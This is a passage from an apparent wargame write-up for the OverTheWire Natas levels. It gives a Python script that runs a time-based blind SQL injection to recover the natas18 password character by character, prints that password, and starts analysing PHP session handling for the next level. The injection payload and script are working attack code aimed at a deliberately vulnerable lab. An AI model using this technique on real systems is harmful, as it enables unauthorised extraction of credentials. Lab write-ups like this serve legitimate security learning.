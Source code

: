 ```python
# results in the maximum amount of time. This is because during testing,
# some network issues happen and the code get the wrong results.
print("--------- Guessing char by char ---------")
for i in range(32):
    max_time = 0
    max_char = 'g'
    time = []
    for char in charset:
        guess = password + char
        payload = 'natas18" and password like binary "' + guess + '%"' + ' and sleep(1);-- '
        r = requests.get(target, auth = creds, params={"username": payload})
        time.append(r.elapsed.total_seconds())
        if r.elapsed.total_seconds() > max_time:
            max_char = char
            max_time = r.elapsed.total_seconds()
    
    password += max_char
    print("Iteration " + str(i + 1) + ": " + password.ljust(32, "="))
    print("Max time elapsed: ", max_time)
    print("Min time elapsed: ", min(time))
```

In the guessing character by character part, the script will print both the maximum and minimum response time. I find this to be very helpful, as when the guesses are all incorrect, or there are problems with the network, the maximum and minimum time are relatively close to each other. The `sleep` time might differ on another PC on a completely different network, so tune the numbers accordingly.

natas18: `8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq`

# Natas 18

Some PHP facts regarding authentication from reading other writeups:

If someone is visiting a site for the very first time, the session in PHP works in some ways like this:

- The web server gets a request from the server and hands the request to the PHP backend
- `session_start()` is called, and it checks whether the user is logged in (PHP wraps the whole identification stuff). If there is no session ID in the request, or if some authentication information in the request (e.g `username`, `password`) is invalid, then a new session ID is generated. 
- PHP prepares the HTML output and hands to the server, including a instruction to set the cookie containing the newly generated session ID. This does not require the usual `set_cookie()` procedure. The browser will get the result and save the cookie.
- If some session ID already exists, then PHP looks for some saved location (sometimes `/tmp`) that is defined for serialized session data, then unserialize it and used to populate the `$_SESSION` superglobal.
- From now on with every subsequent request the browser sends its `PHPSESSIONID` stored in the cookie. `session_start()` picks up the session ID, look if the session ID exists, and if so, returns whatever is available to the session ID. 

Now, onto my take in solving the challenge. To retrieve the password, we must satisfy all the conditions in `print_credentials()`. There are three conditions: there must be a session, the session is storing some values for `"admin"`, and most importantly, the `$_SESSION["admin"]` must be equal to `1`. There is unfortunately nowhere in the code where we can hope to manipulate this value to 1. Any operation on `$_SESSION["admin"]` is always assigning the value to `0`. 
